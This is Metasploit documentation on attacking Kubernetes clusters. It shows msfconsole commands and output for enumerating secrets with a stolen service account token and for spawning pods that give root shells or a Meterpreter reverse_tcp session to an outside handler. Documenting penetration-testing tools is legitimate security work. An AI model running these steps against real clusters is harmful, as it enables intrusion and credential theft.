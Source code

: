 ## Kubernetes Workflows

Metasploit has modules for both exploitation and enumeration of a Kubernetes cluster. These modules can either run through
a compromised docker container, or external to the cluster if the required APIs are accessible:

- [modules/auxiliary/cloud/kubernetes/enum_kubernetes](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/cloud/kubernetes/enum_kubernetes.md)
- [modules/exploit/multi/kubernetes/exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/kubernetes/exec.md)

In the future there may be more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf > search kubernetes
```

### Lab Environment

A tutorial for setting up a compromisable Kubernetes cluster can be found [here](https://github.com/rapid7/metasploit-framework/tree/master/test/kubernetes)

### Kubernetes Enumeration

Metasploit has support for enumerating the Kubernetes API to extract the following information:

- Version - Enumerate Kubernetes service version, git commit, build date, etc
- Auth - RBAC permission information, i.e. if the token can create pods, read secrets, etc
- Namespaces - Enumerate available namespaces
- Pods - Enumerate currently running pods
- Secrets - Enumerate secrets, including base64 decoding to highlight noteworthy credentials, and storing loot

The `auxiliary/cloud/kubernetes/enum_kubernetes` can be used to pivot through the compromised container to reach
an previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

If you have a Meterpreter session on a compromised Kubernetes container, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the Kubernetes API is publicly accessible and you have a JWT Token:

```msf
msf > use cloud/kubernetes/enum_kubernetes
msf auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
```

By default the `run` command will enumerate all resources available, but you can also specify which actions you would like to perform:

```msf
msf auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
```

More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution

The `exploit/multi/kubernetes/exec` module will attempt to create a new pod in the specified namespace, as well as mounting the host's filesystem at `/host_mnt` if the required permissions are available. This module can either use websockets for communication, similar to the `kubectl exec --stdin --tty` command, or upload a full Meterpreter payload.

If you have a Meterpreter session on a compromised Kubernetes container with the available permissions, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```msf
msf exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:

```msf
msf > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/kubernetes/exec) >
```
